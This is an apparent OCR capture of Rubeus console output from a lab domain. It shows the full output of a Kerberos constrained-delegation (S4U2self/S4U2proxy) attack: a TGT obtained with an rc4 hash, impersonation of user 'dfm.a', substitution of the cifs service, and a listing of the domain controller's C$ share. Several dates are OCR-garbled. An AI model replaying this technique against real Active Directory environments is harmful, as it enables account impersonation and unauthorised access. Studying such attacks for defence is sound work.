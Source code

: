  v1.3.3

 [*] Action: Ask TGT

 [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
 [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
 [*] Building AS-REQ (w/ preauth) for: 'testlab.local\patsy'
 [*] Connecting to 192.168.52.100:88
 [*] Sent 230 bytes
 [*] Received 1377 bytes
 [+] TGT request successful!
 [*] base64(ticket.kirbi):

 doIE+jCCBPagAwIBBaEDAgEWoo..(snip)..


 [*] Action: S4U

 [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
 [*] Building S4U2self request for: 'TESTLAB.LOCAL\patsy'
 [*] Sending S4U2self request
 [*] Connecting to 192.168.52.100:88
 [*] Sent 1437 bytes
 [*] Received 1574 bytes
 [+] S4U2self success!
 [*] Got a TGS for 'dfm.a@TESTLAB.LOCAL' to 'TESTLAB.LOCAL\patsy'
 [*] base64(ticket.kirbi):

 doIF2jCCBdagAwIBBaEDAgEWoo..(snip)..

 [*] Impersonating user 'dfm.a' to target SPN 'ldap/PRIMARY.testlab.local'
 [*] Final ticket will be for the alternate service 'cifs'
 [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
 [*] Building S4U2proxy request for service: 'ldap/PRIMARY.testlab.local'
 [*] Sending S4U2proxy request
 [*] Connecting to 192.168.52.100:88
 [*] Sent 2641 bytes
 [*] Received 1829 bytes
 [+] S4U2proxy success!
 [*] Substituting alternative service name 'cifs'
 [*] base64(ticket.kirbi) for SPN 'cifs/PRIMARY.testlab.local':

 doIGujCCBragAwIBBaEDAgEWoo..(snip)..

 [*] Action: Import Ticket
 [+] Ticket successfully imported!

 C:\Rubeus>dir \\primary.testlab.local\C$
 Volume in drive \\primary.testlab.local\C$ has no label.
 Volume Serial Number is A48B-4D68

 Directory of \\primary.testlab.local\C$

 07/05/2018 12:57 PM <DIR> dumps
 03/05/2017 04:36 PM <DIR> inetpub
 022/2013 07:52 AM <DIR> PerfLogs
 04/15/2017 05:25 PM <DIR> profiles
 022018 11:51 AM <DIR> Program Files
 022018 11:51 AM <DIR> Program Files (x86)
 10/09/2018 12:04 PM <DIR> Temp
 023/2018 03:52 PM <DIR> Users
 10/25/2018 01:15 PM <DIR> Windows
 1 File(s) 9 bytes
 9 Dir(s) 40,511,676,416 bytes free
